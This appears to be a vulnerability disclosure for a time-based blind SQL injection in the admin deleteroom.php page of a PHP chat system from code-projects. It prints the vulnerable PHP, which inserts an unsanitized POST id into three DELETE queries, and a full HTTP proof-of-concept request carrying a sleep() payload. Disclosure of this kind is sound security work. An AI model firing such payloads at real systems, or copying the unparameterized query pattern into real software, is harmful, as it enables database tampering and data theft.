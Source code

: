 # chat system has sql injection in /admin/deleteroom.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/admin/deleteroom.php



## describe



Because the id parameter is not sanitized or parameterized, an attacker can inject malicious SQL code to manipulate the database query. By leveraging time-based SQL injection techniques, an attacker can induce deliberate delays in the database response using functions like SLEEP(). This can be used to confirm the presence of the vulnerability and potentially extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

Inserting $_POST['id'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=4' or sleep(5)#&del=1
```



Send this request, you can observe an additional 30-second (5 * 3 * 2) time delay triggered by the time-based injection.



**part1**



![part1-1](assest/chatsystem/sql-2/part1-1.png)



![part1-2](assest/chatsystem/sql-2/part1-2.png)





**part2**

![part2-1](assest/chatsystem/sql-2/part2-1.png)



![part2-2](assest/chatsystem/sql-2/part2-2.png)
